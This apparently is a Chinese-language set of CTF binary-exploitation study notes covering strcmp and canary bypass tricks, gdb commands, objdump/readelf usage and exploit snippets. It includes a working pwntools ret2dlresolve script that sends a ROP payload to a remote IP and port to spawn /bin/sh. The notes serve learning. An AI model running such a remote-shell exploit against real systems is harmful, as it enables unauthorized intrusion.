 # 解题相关
1、strcmp函数遇到 ‘\0’会直接终止判断，所以对于题目中的该函数可以使用这种方法绕过
2、绕过canary可以通过格式化字符串漏洞来爆破出canary的值方式
3、srand函数为设置随机数种子的函数，在某些会产生随机数的题目在中，可以尝试使用覆盖随机数种子，然后使用给定的libc函数去调用随机数种子，以获得确定的随机数（看exp相关的2）

# 调试相关
1、gdb当中，可以使用set指令设置某个内存的内容 
x/5i 0x12345678 查看某个地址的汇编代码
加上l选项 就可以加上行号
# exp相关
1、对于python3中16进制地址的获取和转化，可以通过以下代码来进行
```
canary = p.recv(16)
canary = canary.strip().decode()
canary = int(canary, 16)
```
2、如何使用libc中的函数（随机数为例子） 
```
from ctypes import * 
libc = cdll.LoadLibrary('libc.so.6') 
rand = libc.rand()
``` 
3、对于32位的dl_runtime_resolve题目，可以通过以下工具
```
from pwn import *
context.log_level = 'debug'
context.binary = elf = ELF('./pwn-200')

offset = 112
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=["/bin/sh"])
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
io = remote("61.147.171.105",52497)
io.recvuntil("\n")
payload = flat({offset:raw_rop, 256:dlresolve.payload})
io.sendline(payload)
io.interactive()
```
# 工具相关
1、查看二进制程序的相关信息
objdump -h SimpleSection.o（-x会有更多信息）
查看内部结构
readelf -S ./elf
查看内部结构
objdump -s -j .plt/.dynsym/.dynstr/.rel.plt ./elf (-s参数可以将内容以十六进制打印)
查看相关地址
size ./xxx.o
查看elf文件的代码段，数据段和bss段的长度
objdump -s -d xxx.o
查看各个段的内容，-d参数可以将所有包含指令的段反汇编
readelf -h SimpleSection.o
查看ELF文件
readelf -S SimpleSection.o
查看SimpleSection的段表结构
objdump的使用方法
*-f 显示文件头信息
-D 反汇编所有section (-d反汇编特定section)
-h 显示目标文件各个section的头部摘要信息
-x 显示所有可用的头信息，包括符号表、重定位入口。-x 等价于 -a -f -h -r -t 同时指定。
-i 显示对于 -b 或者 -m 选项可用的架构和目标格式列表。
-r 显示文件的重定位入口。如果和-d或者-D一起使用，重定位部分以反汇编后的格式显示出来。
-R 显示文件的动态重定位入口，仅仅对于动态目标文件有意义，比如某些共享库。
-S 尽可能反汇编出源代码，尤其当编译的时候指定了-g这种调试参数时，效果比较明显。隐含了-d参数。
-t 显示文件的符号表入口。类似于nm -s提供的信息*
2、nm SimpleSection.o
查看符号结果
![91c50c00fdcccee52c2d613a4ac62d60.png](../_resources/91c50c00fdcccee52c2d613a4ac62d60.png)
3、c++filt \_ZN1N1C4funcEi用来解析被修饰过的名称
![b350f8716ae72459b08240a5471f8a1b.png](../_resources/b350f8716ae72459b08240a5471f8a1b.png)